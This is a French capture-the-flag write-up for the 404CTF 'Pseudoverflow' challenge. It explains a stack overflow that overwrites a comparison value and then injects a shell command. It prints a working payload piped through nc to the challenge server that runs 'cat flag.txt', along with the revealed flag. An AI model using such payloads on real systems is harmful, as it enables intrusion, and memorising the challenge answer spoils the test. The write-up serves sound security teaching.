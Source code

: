 # Exploitation de Binaire - Pseudoverflow - Introduction 100pts

## Enonce 

Course annuelle

Bienvenue à tous dans la course annuelle du 404CTF : les inscriptions sont ouvertes !! Votre pseudo sera-t-il à la hauteur de nos attentes ?

Objectif: lire le fichier flag.txt
 
Auteur : Narcisse

### Fichiers fournis :

- course : le binaire a exploiter
- challenges.404ctf.fr 31958 : Le point réseau sur lequel se connecter pour obtenir le flag.

## Solution

Le main du binaire est plutôt simple :

![Main function](wu_img/main_code.png)

Le buffer utilisé pour la saisie utilisateur est fait 106 octets.\
On récupère la saisie utilisateur de manière non sécurisée (fgets).\
Juste après on compare une zone mémoire avec "gagne", si la comparaison réussie on passe à la suite, sinon on affiche un message et on sort.\
La zone mémoire comparée est initialisée au début avec la valeur "perds" . On va donc utiliser la saisie utilisateur pour aller écraser la valeur en mémoire.\

Si on passe la comparaison on va appeler la fonction "win()" :

![Win function](wu_img/win_func.png)

Cette fonction utilise la saisie utilisateur en tant que paramètre pour effectuer une commande système.

Avec toutes ces informations, notre payload pour valider le challenge devrait ressembler à quelque chose comme ça :

> 'ls\x20-l\x3b'+'\x00'*100+'gagne'

Soit une commande, suivi de null bytes pour le padding, puis le terme 'gagne' pour écraser une valeur dans la stack.

Après plusieurs essais, pour calibrer la taille du padding, la commande suivante permet de récuperer le flag :

> python -c 'print("ls -l;cat flag.txt;\x00"+"A"*86+"\x67\x61\x67\x6e\x65\x00")'| nc challenges.404ctf.fr 31958

>> Bienvenue à la course annuelle du 404CTF!!\
>> Pour pouvoir participer, nous avons besoin de votre pseudo :\
>> total 16\
>> -rwxr-xr-x 1 65534 65534 8640 Apr 19 19:41 course\
>> -rw-rw-rw- 1 65534 65534   16 Apr 19 19:41 flag.txt\
>> 404CTF{0v3rfl0w}

Le fichier *solve.py* permet de solve le challenge en utilisant la librairie "pwntools".

**Flag** : 404CTF{0v3rfl0w}
